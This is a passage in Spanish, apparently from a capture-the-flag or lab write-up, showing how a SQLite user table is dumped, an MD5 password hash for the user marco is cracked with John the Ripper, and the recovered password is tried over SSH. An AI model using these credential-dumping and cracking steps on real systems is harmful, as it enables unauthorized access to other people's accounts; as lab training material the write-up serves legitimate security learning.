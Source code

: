 Dentro de la herramienta con dicho archivo listamos las tablas que pueda tener:

```sql
.tables
```

Info:

```
code_snippet  user
```

Vamos a ver la informacion de `user` que es la mas interesante:

```sql
select * from user;
```

Info:

```
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
3|ezboi|726fc2abe79d325c745210240c13dd89
```

Veremos cosas interesantes entre ellas el usuario `marco` con su contraseña `hasheada`, como vemos que existe a nivel de sistema, vamos a probar a `crackear` dicha contraseña de `marco`.

> hash

```
marco:649c9d65a206a75f5abe509fe128bce5
```

Ahora con `john` haremos lo siguiente:

```shell
john --format=Raw-MD5 --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetangelbabylove (marco)     
1g 0:00:00:00 DONE (2025-09-19 11:35) 7.142g/s 24633Kp/s 24633Kc/s 24633KC/s sweetart098..sweetali786
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, por lo que vamos a probar dichas credenciales por `SSH` a ver si funcionaran:

### SSH

```shell
ssh marco@<IP>
```
